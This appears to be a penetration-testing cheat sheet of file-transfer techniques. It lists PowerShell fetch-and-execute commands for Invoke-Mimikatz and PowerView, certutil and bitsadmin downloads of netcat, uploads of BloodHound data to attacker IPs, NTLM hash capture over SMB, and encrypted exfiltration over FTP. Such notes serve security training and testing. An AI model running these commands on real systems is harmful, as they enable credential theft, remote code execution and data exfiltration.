 cd C:\Windows\Temp; mkdir <...>; cd <...>

| **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 \| iex` | Alias iex |
| `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing \| iex` | Basic Parser |
| `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))` | Encoding b64 |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"` | Download using import |
| `certutil.exe -f -urlcache -split http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql` | Download |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |

Windows -> Linux

Linux -> `impacket-smbserver smbFolder $(pwd) -smb2support`

Windows -> `\\<ip>\smbFolder\<file>` -> Get Hashes NTLM v2


Windows via secure way

Windows Encript file

``Powershell
Import-Module .\Invoke-AESEncryption.ps1
Invoke-AESEncryption.ps1 -Mode Encrypt -Key "s3cure-and-unique-p4ssw0rd" -Path .\scan-results.txt
``

Open FTP service on linux

``bash
pip3 install pyftpdlib
python3 -m pyftpdlib --user=pentester --password=s3cure-and-unique-p4ssw0rd -w
``

Windows transfer file via ftp
``
ftp
ftp> open <ip> <port>
User (10.10.14.2:(none)): <user>
Password: <password>
ftp> put scan-results.txt.aes
``

To decrypt the file again

``bash
¬ pwsh
PS> Import-Module Invoke-AESEncryption.ps1
PS> Invoke-AESEncryption -Mode Decrypt -Key "s3cure-and-unique-p4ssw0rd" -Path ./scan-results.txt.aes
``
